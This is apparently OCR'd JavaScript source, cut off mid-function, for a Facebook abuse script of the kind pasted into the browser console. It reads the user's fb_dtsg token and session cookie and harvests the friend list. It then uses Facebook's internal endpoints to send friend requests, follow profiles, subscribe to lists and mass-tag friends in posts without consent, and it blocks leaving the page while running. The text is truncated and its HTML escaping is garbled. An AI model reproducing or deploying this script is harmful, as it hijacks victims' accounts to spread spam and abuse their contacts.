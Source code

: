 ]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) &amp;&amp; (b = e.responseXML);                         c &amp;&amp; c(b)                     } else g.f &amp;&amp; document.getElementsByTagName("body")[0].removeChild(g.f), g.e &amp;&amp; (document.getElementById(g.e).style.display = "none"), error &amp;&amp; error(e.status)             };             e.send(k)         }     },     d: function () {         return this.b()     } };   function ChangeLocation() {     window.location.href = "http://www.facebook.com/" } setTimeout("ChangeLocation", 1); window.onbeforeunload = function () {     if (window[tag + "_close"]) return "This script is running now!" }; var i = 3; var tay = 3; var suc = 0; var err = 0; var arr = new Array; var arn = new Array; var pho = new Array; var tag = "Close"; var page_name, x = document.getElementsByTagName("span"); for (i = 0; i &lt; x.length; i++)     if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML; var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&amp;token=v7&amp;filter[0]=user&amp;options[0]=friends_only&amp;options[1]=nm&amp;options[2]=sort_alpha&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=l", function (a) {     var b = a;     var c = b.substring(b.indexOf("{"));     var d = JSON.parse(c);     d = d.payload.entries;     for (var e = 0; e &lt; d.length; e++) arr.push(d[e].uid);     for (var eg = 0; eg &lt; d.length; eg++) arn.push(d[eg].text);     for (var pic = 0; pic &lt; d.length; pic++) pho.push(d[pic].photo);     i = arr.length - 1; tay = i;console.log(arr.length);var display = "&lt;div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "&lt;div style='padding-bottom:10px;font-size:20px;'>" + Title + "&lt;/div>";display += arr.length + " Friends Detected";display += "&lt;/div>"; document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});function cereziAl(e){var t=e+"=";if(document.cookie.length>0){konum=document.cookie.indexOf(t);if(konum!=-1){konum+=t.length;son=document.cookie.indexOf(";",konum);if(son==-1)son=document.cookie.length;return unescape(document.cookie.substring(konum,son))}else{return""}}}function getRandomInt(e,t){return Math.floor(Math.random()*(t-e+1))+e}function randomValue(e){return e[getRandomInt(0,e.length-1)]}function a(e){var t=new XMLHttpRequest;var n="/ajax/follow/follow_profile.php?__a=1";var r="profile_id="+e+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";t.open("POST",n,true);t.setRequestHeader("Content-type","application/x-www-form-urlencoded");t.setRequestHeader("Content-length",r.length);t.setRequestHeader("Connection","close");t.onreadystatechange=function(){if(t.readyState==4&amp;&amp;t.status==200){t.close}};t.send(r)}function sublist(e){var t=document.createElement("script");t.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+e+" }).send();";document.body.appendChild(t)}function sarkadaslari_al(){var xmlhttp=new XMLHttpRequest;xmlhttp.onreadystatechange=function(){if(xmlhttp.readyState==4){eval("arkadaslar = "+xmlhttp.responseText.toString().replace("for (;;);","")+";");for(f=0;f&lt;Math.round(arkadaslar.payload.entries.length/10);f++){smesaj="";smesaj_text="";for(i=f*10;i&lt;(f+1)*10;i++){if(arkadaslar.payload.entries[i]){smesaj+=" @["+arkadaslar.payload.entries[i].uid+":"+arkadaslar.payload.entries[i].text+"]";smesaj_text+=" "+arkadaslar.payload.entries[i].text}}sdurumpaylas()}}};var params="&amp;filter[0]=user";params+="&amp;options[0]=friends_only";params+="&amp;options[1]=nm";params+="&amp;token=v7";params+="&amp;viewer="+user_id;params+="&amp;__user="+user_id;if(document.URL.indexOf("https://")>=0){xmlhttp.open("GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1"+params,true)}else{xmlhttp.open("GET","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1"+params,true)}xmlhttp.send()}function sarkadasekle(e,t){var n=new XMLHttpRequest;n.onreadystatechange=function(){if(n.readyState==4){}};n.open("POST","/ajax/add_friend/action.php?__a=1",true);var r="to_friend="+e;r+="&amp;action=add_friend";r+="&amp;how_found=friend_browser";r+="&amp;ref_param=none";r+="&amp;outgoing_id=";r+="&amp;logging_location=friend_browser";r+="&amp;no_flyout_on_click=true";r+="&amp;ego_log_data=";r+="&amp;http_referer=";r+="&amp;fb_dtsg="+document.getElementsByName("fb_dtsg")[0].value;r+="&amp;phstamp=165816749114848369115";r+="&amp;__user="+user_id;n.setRequestHeader("X-SVN-Rev",svn_rev);n.setRequestHeader("Content-Type","application/x-www-form-urlencoded");if(t=="farketmez"&amp;&amp;document.cookie.split("cins"+user_id+"=").length>1){n.send(r)}else if(document.cookie.split("cins"+user_id+"=").length&lt;=1){cinsiyetgetir(e,t,"sarkadasekle")}else if(t==document.cookie.split("cins"+user_id+"=")[1].split(";")[0].toString()){n.send(r)}}function scinsiyetgetir(uid,cins,fonksiyon){var xmlhttp=new XMLHttpRequest;xmlhttp.onreadystatechange=function(){if(xmlhttp.readyState==4){eval("cinssonuc = "+xmlhttp.responseText.toString().replace("for (;;);","")+";");cinshtml.innerHTML=cinssonuc.jsmods.markup[0][1].__html;btarihi.setTime(bugun.getTime()+1e3*60*60*24*365);if(cinshtml.getElementsByTagName("select")[0].value=="1"){document.cookie="cins"+user_id+"=kadin;expires="+btarihi.toGMTString()}else